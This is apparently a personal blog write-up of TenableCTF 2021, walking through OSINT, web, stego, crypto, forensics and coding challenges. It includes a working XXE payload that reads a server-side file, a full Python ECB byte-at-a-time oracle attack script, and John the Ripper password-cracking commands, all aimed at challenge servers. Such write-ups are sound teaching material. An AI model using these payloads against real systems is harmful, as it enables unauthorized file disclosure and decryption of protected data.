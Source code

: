 ```yaml
---
title: "CTF - TenableCTF 2021"
categories: [ctf]
date: 2021-02-20
comments: true
image: /images/writeups/TenableCTF/logo.png
description: CTF - TenableCTF 2021
---
```


# TenableCTF 2021

<p align="center">
  <img src="/images/writeups/TenableCTF/logo.png" width="300"/>
</p>

I participate in this CTF for team [ISwearIGoogledIt](https://ctftime.org/team/109689) and got some challenges!

<p align="center">
  <img src="/images/writeups/TenableCTF/rank.png" width="500"/>
</p>

---

### OSINT

- [We're watching you](#we-re-watching-you)

### Web

- [Send A Letter](#send-a-letter)
- [Follow The Rabbit Hole](#follow-the-rabbit-hole)

### Misc

- [Broken QR](#broken-qr)
- [Find the encoding](#find-the-encoding)
- [Forwards from Grandma](#forwards-from-grandma)

### Stego

- [Numerological](#numerological)
- [Secret Images](#secret-images)
- [Weird Transmission](#weird-transmission)
- [A3S Turtles](#a3s-turtles)

### Crypto

- [Easy Peasy](#easy-peasy)
- [Netrunner Encryption](#netrunner-encryption)

### Forensic

- [H4ck3R_m4n exp0sed! 2](#h4ck3r-m4n-exp0sed-2)
- [H4ck3R_m4n exp0sed! 3](#h4ck3r-m4n-exp0sed-3)

### Code

- [Short and sweet](#short-and-sweet)
- [Find largest triangle](#find-largest-triangle)
- [Parsey Mcparser](#parsey-mcparser)


---

# OSINT

##  We re watching you
75

NOTE: Our chat bot will not help you with this challenge. Please do not use it for this ctf!

The challenge shows a Peekaboo gif with a KPop artist. RazviOverflow went over that track and found nothing. Tenable discovered a vulnerability and they called it Peekaboo, that could be a great place to work on. 

We can visited their blog post:

https://www.tenable.com/blog/peekaboo

And look over different related pages until the flag showed up on one of them:

https://www.tenable.com/security/research/tra-2018-25

<p align="center">
  <img src="/images/writeups/TenableCTF/OSINT/1_flag.png" width="50%"/>
</p>


---

# Web

## Send A Letter
50

There is a web app at http://challenges.ctfd.io:30471/. Find the vulnerability, exploit it, and recover the flag.

We can see an strange encoding on the XML. Googling for it I found XXE vulnerability on [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)\_Processing).

We can use one of the templated to speed up the attack.
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///tmp/messages_outbound.txt" >]>
<letter><name>&xxe;</name></letter>
```

We can use [URL Encoder](https://www.urlencoder.org/) and Burp to repeat the attack:

<p align="center">
  <img src="/images/writeups/TenableCTF/Web/XXE/1_flag.png" width="50%"/>
</p>

```
%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22ISO-8859-1%22%3F%3E%0A%3C%21DOCTYPE%20foo%20%5B%0A%20%20%20%3C%21ELEMENT%20foo%20ANY%20%3E%0A%20%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%20%22file%3A%2F%2F%2Ftmp%2Fmessages_outbound.txt%22%20%3E%5D%3E%0A%3Cletter%3E%3Cname%3E%26xxe%3B%3C%2Fname%3E%3C%2Fletter%3E
```

``` flag{xxe_aww_yeah} ```


##  Follow The Rabbit Hole
100

Follow the rabbit hole and get the flag.

http://167.71.246.232/

We get into a website with the following URL and this content:

```
http://167.71.246.232:8080/rabbit_hole.php?page=cE4g5bWZtYCuovEgYSO1
[513, '71'] 4O48APmBiNJhZBfTWMzD

http://167.71.246.232:8080/rabbit_hole.php?page=4O48APmBiNJhZBfTWMzD
[803, 'A5'] dUfob5k9t2vH1dVEU9bU

http://167.71.246.232:8080/rabbit_hole.php?page=dUfob5k9t2vH1dVEU9bU
[371, '08'] EiFCRRS86AT19seqH1ls
...
```

We have like a flow of URLs and and array with an int and a string. Let's make an script to retrieve all the URLs and also the content of the HTML. After messing around with the messages I though that the first array could be a key:value pair:

{% highlight python%}
import requests
import re
import json

url = 'http://167.71.246.232:8080/rabbit_hole.php?page='
path = 'cE4g5bWZtYCuovEgYSO1'
exp = r"\[([\d]+), '([\w]+)'\]\n.(.*)"
array = {}
paths = []

i = 0

while True:
	try:
		r = requests.get(url+path)
		print(r.text)
		
		content = re.search(exp, r.text)
		array[content.group(1)] = content.group(2)
		path = content.group(3)
		i += 1
		print(i)
	except AttributeError:
		break
	except Exception:
		break

with open('result.json', 'w') as out_file:
	json.dump(array, out_file, indent=4, sort_keys=True)	

with open('paths.json', 'w') as out_file:
	json.dump(paths, out_file, indent=4)
{% endhighlight %}

To follow the current approach I set the key as the order in a string and merge the values in order with the following code:

{% highlight python%}
import json

with open('result.json', 'r') as in_file:
	arrays = json.load(in_file)

content = []
for i in range(0, len(arrays)):
	content.append(arrays[str(i)])

with open('values.txt', 'w') as out_file:
	out_file.write(''.join(content))
{% endhighlight %}

It seems like hex, so quick check on CyberChef build up an image with the flag:

<p align="center">
  <img src="/images/writeups/TenableCTF/Web/Follow/1_flag.png" width="50%"/>
</p>

---

# Misc

## Broken QR
100

Can you scan this QR code for me?

We got a broken QR, a quick Paint and some redundancy on the QR code maybe will do the job.

<p align="center">
  <img src="/images/writeups/TenableCTF/Misc/BrokenQR/qr_fix.png" width="40%"/>
</p>

<p align="center">
  <img src="/images/writeups/TenableCTF/Misc/BrokenQR/flag.jpeg" width="40%"/>
</p>

``` flag{d4mn_it_w0nt_sc4n} ```


## Find the encoding
50

DeZmqMUkDJceycJHJPzZet

With the magic function on [CyberChef](https://gchq.github.io/CyberChef/), we can see the base58 as recommended encoding.

``` flag{not_base64} ```


## Forwards from Grandma
100

My grandma sent me this email, but it looks like there's a hidden message in it. Can you help me figure it out?

We have an email with the following subject, which is suspicious:

```
FWD: FWD: RE: FWD:  FWD: RE: FWD: FWD:  FWD: RE:  RE: RE: FWD: { FWD: FWD:  FWD: FWD: RE: RE: FWD: RE:  RE: RE:  FWD: FWD:  FWD: FWD: FWD:  FWD: FWD: FWD:  FWD: FWD: RE: RE: FWD: RE:  FWD: RE:  RE: RE: RE:  FWD: RE: FWD: FWD: } THIS IS HILARIOUS AND SO TRUE
```

```
Let's sustitute the FWD and RE for dot and dash respectively:
FWD: .
RE: -

..-. .-.. .- --. {.. ..--.- -- .. ... ... ..--.- .- --- .-.. } 
```

Decode morse code:

``` flag{I_MISS_AOL} ```

---

# Stego

##  Numerological
100

While working on his latest historical fact book, Don Beige came across a weird group of monks whose only communication with one another was to message the same picture back and forth.

Don thinks there must be something more going on and grabbed a sample.

Can you help him solve this case?


We got an image:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Shield/shield.png" width="40%"/>
</p>

By using binwalk we retrieve another image:

``` binwalk -M --dd=.* shield.png ```

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Shield/monk.png" width="50%"/>
</p>

Seems like Cisternian numbers. Let's use [dcode](https://www.dcode.fr/cistercian-numbers) to retrieve the numbers. Remember that to introduce the input on dcode website, we have to start from the bottom left corner to bottom right, then top left and finally top right.

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Shield/numbers.png" width="50%"/>
</p>

3637 3639 3734 3265 3639 3666 3266 3461 3734 3461 3631 3538

363736393734326536393666326634613734346136313538

Decode Hex > Decode Hex > git.io/JtJaX

On that git post we can find the flag:

``` flag{th0s3_m0nk5_w3r3_cl3v3r} ```

## Secret Images

The challenge provide us two images:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Secret/crypted1.png" width="40%"/>
</p>
<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Secret/crypted2.png" width="40%"/>
</p>

We can see differences on both images. I created a python script to change to black pixels that are within a range of difference.

{% highlight python %}

from PIL import Image

def difference(pix1, pix2):
	suma = 0
	for i in range(0,2):
		suma += pix1[i] - pix2[i]
	return suma

im = Image.open('crypted1.png')
im2 = Image.open('crypted2.png')

black = 0
red = 0

width, height = im.size

for x in range(0,width):
	for y in range(0,height):
		current_color = im.getpixel((x,y))
		current_color2 = im2.getpixel((x,y))

		if difference(current_color,current_color2) > 2:
			im2.putpixel((x,y), (0, 0, 0, 255))

im2.show() 

{% endhighlight %}

We can barely see the flag. Watch out, you might get blind looking for the flag.

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Secret/1_flag.png" width="50%"/>
</p>

``` flag{otp_reuse_fail} ```


##  Weird Transmission
175

There seems to be this weird extraterrestrial communication broadcast in our discord. Can you help us decode it?

Seems like SSTV signal. Redirect the output from the audio into a virtual sound card and use RX SSTV program to decode it. It seems like it's cut out and I found no way to get the original resolution. With Scotie 1 that's all I could get and filling with the flag prefix will do the job:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Weird/1_flag.jpg" width="50%"/>
</p>

``` flag{Noah_th3_s4vi0ur} ```


## A3S Turtles
250

Turtles all the way down.


We got a zip with password, let's use JohnTheRipper to retrieve the password:

```
kali@kali:/opt/john/john/run$ ./zip2john ~/Desktop/CTFs/Tenable/Stego/Turtle/turtles128.zip > ~/Desktop/CTFs/Tenable/Stego/Turtle/zip.hashes
ver 2.0 turtles128.zip/turtles127.zip PKZIP Encr: cmplen=19073, decmplen=19051, crc=CBB89A0B type=8
kali@kali:/opt/john/john/run$ ./john ~/Desktop/CTFs/Tenable/Stego/Turtle/zip.hashes
Proceeding with incremental:ASCII
0                (turtles128.zip/turtles127.zip)
```

First password is 0, then a new zipfile showed up:

```
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with incremental:ASCII
0                (turtles127.zip/turtles126.zip)
```

Then other zip, now with password 1:

```
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
1                (turtles126.zip/turtles125.zip)
```

Maybe a binary sequence??

I have developed the following bash script to get all the zips out and retireve the inner file and the sequence suposing that there would be 127 zips:

{% highlight bash %}
#!/bin/bash

filename=$1
x=0
arr=()
while [ $x -le 127 ]
do
	echo "$filename"
	file $filename | grep "zip"
	if [ "$?" -eq "0" ]
	then
		echo "Unzipping $filename"
		
		if unzip -P "0" $filename ; then
		    arr+=(0)
		else
		    unzip -P "1" $filename
		    arr+=(1)
		fi

		rm $filename
		filename=$(ls *zip)
		x=$(( $x + 1 ))
	fi
done
echo ${arr[@]}
{% endhighlight %}

The binary output of all the passwords were:

```
00111101110010010000011011110110100100101000111011101000100000101100110010110001101110001011110111010001010010101010001001001100
```

Also at the end of the zips we found a **key.png** file with the following text:

```
ed570e22d458e25734fc08d849961da9
```

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Turtle/key.png" width="40%"/>
</p>

Seems like it has no flag at all, no hexdump or base64 from it. I'm stucked at the moment.

Going back to the challenge and the information I had the following clues: First, the title is a3s, which can be AES cipher (?). Second, the name of th file within the zips: **key.png** that provides a 32 bytes key. I digged until I found a way to operate the algorithm and extract the flag:

From the 128 bits message I obtained 32 bytes, converting the binary into hexadecimal:

``` 3dc906f6928ee882ccb1b8bdd14aa24c ```

Now we don't have any clue about an Initialization Vector (IV) needed on some of the AES operation modes, so we can think about Electronic CodeBook (ECB) which doesn't need IV. And looks like we got the flag:

<p align="center">
  <img src="/images/writeups/TenableCTF/Stego/Turtle/1_flag.png" width="50%"/>
</p>

``` flag{steg0_a3s} ```

---

# Crypto

## Easy Peasy
50

Find the flag here:

NzMgNzkgNmUgNzQgN2IgNzAgNjIgNjEgNzQgNjUgNmUgNjcgNjYgNWYgNmMgNjIgNjggNWYgNzQgNjIgNjcgNWYgN2EgNzIgN2Q=

- First base64:

73 79 6e 74 7b 70 62 61 74 65 6e 67 66 5f 6c 62 68 5f 74 62 67 5f 7a 72 7d

- Convert into ASCII:

synt{pbatengf_lbh_tbg_zr}

- ROT13:

```flag{congrats_you_got_me} ```


## Netrunner Encryption
200

Take a look at the new encryption tool out that netrunner gonk friends are using:

http://167.71.246.232:8080/crypto.php

We can find the server encription method. We can see that the server uses AES with ECB mode, which we know it to be vulnerable due to the no usage of IV and there is no randomness derivation over each block encripted. We can see that the server retrieves our input, appends the flag and then it pads until the end of the block:

```
|userinpuuuutttfl| |ag{this_is_a_fla| |g}paddingpadding|
```

<p align="center">
  <img src="/images/writeups/TenableCTF/Crypto/ECB.png" width="50%"/>
</p>

{% highlight php %}

<?php

function pad_data($data){
  $flag = "flag{wouldnt_y0u_lik3_to_know}"; 
  #
  $pad_len = (16 - (strlen($data.$flag) % 16));
  return $data . $flag . str_repeat(chr($pad_len), $pad_len);
}

if(isset($_POST["do_encrypt"])){

  $cipher = "aes-128-ecb";
  $iv  = hex2bin('00000000000000000000000000000000');
  $key = hex2bin('74657374696E676B6579313233343536');
  echo "</br><br><h2>Encrypted Data:</h2>";
  $ciphertext = openssl_encrypt(pad_data($_POST['text_to_encrypt']), $cipher, $key, 0, $iv); 

  echo "<br/>";
  echo "<b>$ciphertext</b>";
}
?>

{% endhighlight %}

I could implement the PHP AES algorithm to guess the flag, but I went against the server. I have implemented the following python algorithm to go over every character and guess it using the characters that could be on the flag. A great explanation can be found on [Zach Grace post](https://zachgrace.com/posts/attacking-ecb/).

{% highlight python %}
mport requests
import base64
import re
import time
import string

# 74657374696E676B6579313233343536 = testingkey123456

def send_data(input_text):

	data1 = {
		'text_to_encrypt':input_text,
		'do_encrypt':'Encrypt'
	}

	r = requests.post('http://167.71.246.232:8080/crypto.php', data=data1)

	regex = r'<b>(.*)<\/b>'
	base = re.search(regex, r.text)

	base64_message = base64.b64decode(base.group(1))

	return base64_message


def get_payload_len():
	# |aaaaaflag{bbbbbb| |bbbbbbbbbbbbbbbb| |bbbbbbbbbbbbbbbb| |}padpadpadpadpad| 

	payload_len = 0

	for i in range(0, 32):

		send = 'a'*i
		print(send)
		time.sleep(0.5)

		recv_data = send_data(send)

		# Get first data length
		if i == 0:
			recv_data_len = len(recv_data)

		if recv_data_len != len(recv_data):
			block_size = len(recv_data) - recv_data_len
			payload_len = len(recv_data) - len(send) - block_size-1
			break

		print(len(send), len(send_data(send)))

	print('Payload length: {}\nBlock size: {}'.format(payload_len, block_size))



def attack(block_size=16, payload_size=41):

	# The flag is composed of lowercase, numbers and underscore
	chars = '_' + string.ascii_lowercase + string.digits + '{' + '}'

	# We know that the flag starts like this, so we can save those requests
	flag = [char for char in 'flag{']
	counter = len(flag) + 1

	for n in range(0, payload_size):

		# We send 16 + 10 'a' so the server fills with flag{X:
		# aaaaaaaaaaaaaaaa aaaaaaaaaa
		# aaaaaaaaaaaaaaaa aaaaaaaaaaflag{X
		
		send = 'a' * ((block_size*2)-counter)

		# The server will encrypt the part of the flag. We save it for latter. 
		recv_data = send_data(send)		
		print(send)
		time.sleep(1)

		for ch in chars:

			# We recreate the payload 
			
			# aaaaaaaaaaaaaaaa aaaaaaaaaa
			ls = ['a' for i in range((block_size*2)-counter)]

			# Append the flag that we have:
			# aaaaaaaaaaaaaaaa aaaaaaaaaaflag{
			ls.extend(flag)

			# Append the guessed char:
			# aaaaaaaaaaaaaaaa aaaaaaaaaaflag{a
			ls.append(ch)
			send = ''.join(ls)
			print(send)

			# We receive the ciphertext from our guess
			recv_data2 = send_data(send)

			# Check if the guess is the same as the previous server encription
			if recv_data[:(block_size*2)] == recv_data2[:(block_size*2)]:
				
				flag.append(ch)
				counter = len(flag) +1
				print('flag: {}'.format(''.join(flag)))
				break

attack()
{% endhighlight %}

<p align="center">
  <img src="/images/writeups/TenableCTF/Crypto/flag.png" width="30%"/>
</p>

``` flag{b4d_bl0cks_for_g0nks} ```

---

# Forensic

## H4ck3R_m4n exp0sed! 2
25

I got this packet capture with some of the notorious h4ckerm4n's secret information.

The flag for this challenge should make my boss angry.


A pcapng file is provided. First impressions showed an FTP file transmission. To retrieve the **supersecure.7z** file, go to any of the packets in the stream, right click Follow > Follow TCP Stream:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_ftp.png" width="50%"/>
</p>

We can see the data in ASCII of the 7z file:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_follow.png" width="50%"/>
</p>

Now, to save it, select the raw at the menu and save it with whatever name:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_save.png" width="40%"/>
</p>

The 7z file has a password. looking back into the FTP session, we can see at the beginning that the attacker used **hunter2** as password, but didn't work as password for the 7z:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_pass.png" width="40%"/>
</p>

Let's crack it with JohnTheRipper:
Since 7z2john is written on perl on the official repo, I had to install it:

```
sudo apt install libcompress-raw-lzma-perl -y
```

I was too greedy on the cracking stage. While crcking I inspected the pcapng file and found the password ^^'

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/1_password.png" width="50%"/>
</p>

Within there are 2 files, one of them is a PNG, showing the flag:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/pickle_nick.png" width="40%"/>
</p>

``` flag{pickl3_NIIICK} ```


## H4ck3R_m4n exp0sed! 3
50

I got this packet capture with some of the notorious h4ckerm4n's secret information.

The flag for this challenge should give you unrealistic expectations.

On the previous 7z file, there were 2 files, one of them a PNG and the other a plain text document. The content seens to be hexadecimal:

```
6a 7a 34 73 7a 51 71 34 53 73 76 75 68 42 41 67 43 6c 75 57 76 48 62 34 71 66 49 49 64 56 34 4d 72 38 38 48 62 51 66 43 76 47 2f 49 38 48 76 54 32 58 73 65 42 42 4c 38 49 6e 79 4e 4c 38 62 44 ...
```

We end up with a base64 string:

```
/9j/4AAQSkZJRgABAQAASABIAAD/4QBYRXhpZgAATU...
```

Then, a familiar file header showed up:

```
ÿØÿà
```

Seems like a JPEG:

<p align="center">
  <img src="/images/writeups/TenableCTF/Forensic/Hackerman/flag.jpeg" width="50%"/>
</p>

```flag{20_minute_adventure}```

---

# Code

## Short and sweet

Below is some code that reads integers from stdin and pases a list of them to a function named "AreNumbersEven". Implement the "AreNumbersEven" function.
This function takes a list of integers and returns a boolean list: True if number was even, and False if odd.
If implemented right, the attached code will print the answer returned from your function.
stdin example:
66 0 -47 
stdout example:
[True, True, False] 

{% highlight python %}

def AreNumbersEven(numbers):
	#impliment here
	booleans = []
	for num in numbers:
		booleans.append(num%2==0)
	# Read space delimited integers from stdin and 
	# pass a list of them to AreNumbersEven()
	return booleans
numbers = raw_input()
integer_list = [int(i) for i in numbers.split(' ')]
even_odd_boolean_list = AreNumbersEven(integer_list)
print even_odd_boolean_list

{% endhighlight %}


## Find largest triangle

{% highlight python %}

# points is a list of 3D points
# ie: [[2, 9, -15], [0, 33, -20], ...]
from itertools import combinations

# Can use this function instead of combinations
def combine(lst, n): 
      
    if n == 0: 
        return [[]] 
      
    l =[] 
    for i in range(0, len(lst)): 
          
        m = lst[i] 
        remLst = lst[i + 1:] 
          
        for p in combine(remLst, n-1): 
            l.append([m]+p) 
              
    return l

#determinant of matrix a
def det(a):
    return a[0][0]*a[1][1]*a[2][2] + a[0][1]*a[1][2]*a[2][0] + a[0][2]*a[1][0]*a[2][1] - a[0][2]*a[1][1]*a[2][0] - a[0][1]*a[1][0]*a[2][2] - a[0][0]*a[1][2]*a[2][1]

#unit normal vector of plane defined by points a, b, and c
def unit_normal(a, b, c):
    x = det([[1,a[1],a[2]],
             [1,b[1],b[2]],
             [1,c[1],c[2]]])
    y = det([[a[0],1,a[2]],
             [b[0],1,b[2]],
             [c[0],1,c[2]]])
    z = det([[a[0],a[1],1],
             [b[0],b[1],1],
             [c[0],c[1],1]])
    magnitude = (x**2 + y**2 + z**2)**.5
    return (x/magnitude, y/magnitude, z/magnitude)

#dot product of vectors a and b
def dot(a, b):
    return a[0]*b[0] + a[1]*b[1] + a[2]*b[2]

#cross product of vectors a and b
def cross(a, b):
    x = a[1] * b[2] - a[2] * b[1]
    y = a[2] * b[0] - a[0] * b[2]
    z = a[0] * b[1] - a[1] * b[0]
    return (x, y, z)

#area of polygon poly
def area(poly):
    if len(poly) < 3: # not a plane - no area
        return 0

    total = [0, 0, 0]
    for i in range(len(poly)):
        vi1 = poly[i]
        if i is len(poly)-1:
            vi2 = poly[0]
        else:
            vi2 = poly[i+1]
        prod = cross(vi1, vi2)
        total[0] += prod[0]
        total[1] += prod[1]
        total[2] += prod[2]
    result = dot(total, unit_normal(poly[0], poly[1], poly[2]))
    return abs(result/2)

def FindLargestTriangleArea(points):
  # return largest area
  pass

# Reading space delimited points from stdin
# and building list of 3D points
points_data = raw_input()
points = []
for point in points_data.split(' '):
	point_xyz = point.split(',')
	points.append([int(point_xyz[0]), int(point_xyz[1]), int(point_xyz[2])])

comb = combinations(points, 3)  
areas_list = []
for i in comb:
	area2 = area(list(i))
	areas_list.append(int(round(area2)))
# Compute Largest Triangle and Print Area rounded to nearest whole number
#area = FindLargestTriangleArea(points)
print max(areas_list)

{% endhighlight %}


## Parsey Mcparser

{% highlight python %}
import re

def ParseNamesByGroup(blob, group_name):
	
	group_regex = r'\["age":(\d*), "user_name":"([\w ]*)", "Group":"([\w ]*)"\]'
	res = re.findall(group_regex, blob)

	group_guys = []
	for i in res:
		if i[2] == group_name:
			group_guys.append(i[1])
			
	return group_guys
   
data = raw_input()
group_name = data.split('|')[0]
blob = data.split('|')[1]

result_names_list = ParseNamesByGroup(blob, group_name)
print result_names_list
{% endhighlight %}


Thanks for reading!